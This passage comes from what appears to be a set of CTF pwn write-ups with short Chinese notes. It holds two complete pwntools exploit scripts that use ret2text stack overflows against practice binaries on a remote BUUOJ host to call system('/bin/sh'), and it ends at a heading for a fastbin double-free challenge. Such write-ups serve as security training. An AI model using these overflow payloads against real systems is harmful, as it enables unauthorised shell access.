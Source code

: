 ## 0x0f [HarekazeCTF2019]baby_rop
### ans ret2text
简单 ret2text 栈溢出
### exp
```python
from pwn import *
context.log_level = "debug"

# io = process('./hk_babyrop')
io = remote('node3.buuoj.cn','28332')
e = ELF('./hk_babyrop')

binsh_addr = 0x601048
system_addr = e.symbols['system']
pop_rdi = 0x0400683

io.recvuntil('your name?')
payload = 0x18 * 'a' + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
io.sendline(payload)
io.interactive()
```

## 0x10 jarvisoj_level2
### ans ret2text
简单 ret2text 栈溢出
### exp
```python
from pwn import *
context.log_level = "debug"

# io = process('./jarvisoj_level2')
io = remote('node3.buuoj.cn','26699')
e = ELF('./jarvisoj_level2')

binsh_addr = 0x0804a029
system_addr = e.symbols['system']

io.recvuntil('Input:')
payload = (0x88 + 4) * 'a'  + p32(system_addr)  + 'dead'+ p32(binsh_addr)
io.sendline(payload)
io.interactive()
```

## 0x11 babyheap_0ctf_2017
### ans fastbin double free